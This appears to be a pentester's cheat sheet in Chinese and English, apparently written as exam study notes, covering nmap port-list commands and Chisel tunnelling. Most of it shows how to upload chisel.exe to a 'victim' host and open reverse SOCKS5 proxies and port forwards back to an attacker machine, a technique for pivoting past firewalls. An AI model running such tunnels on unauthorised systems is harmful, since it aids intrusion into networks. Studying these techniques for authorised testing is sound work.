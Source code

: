 ## GetOpenPorts

```
cat ports.txt | cut -f1 -d '/' | tr '\n' ','
```

## Top 1,000 TCP and UDP

https://nullsec.us/top-1-000-tcp-and-udp-ports-nmap-default/

```
# 筛选top 100的udp端口
grep udp /usr/share/nmap/nmap-services | sort -r -k3 | head -n 100
```



# Chisel

## 往事回忆：配置正向socks5代理总是忘记--socks5

以前正向和反向socks5代理总是傻傻分不清，后来用久了发现不需要分清能用就行。正向代理的命令如下。

```bash
VPS:
chisel server -p 8080 --socks5

kali:
chisel client 91.149.238.154:8080 192.168.80.129:1090:socks
```

## 端口转发

注意两端使用的版本最好一致，否则容易出bug。

```
# kali
chisel server --port 445 --reverse  

# victim
upload chisel.exe
.\chisel.exe client 192.168.45.204:445 R:1433:127.0.0.1:1433
```

## 配置反向socks5

考试怕遇到防火墙，无脑用反向socks5代理就行！

```
# victim
chisel client 192.168.49.126:8000 R:1080:socks

# kali
chisel server -p 8000 --reverse
```
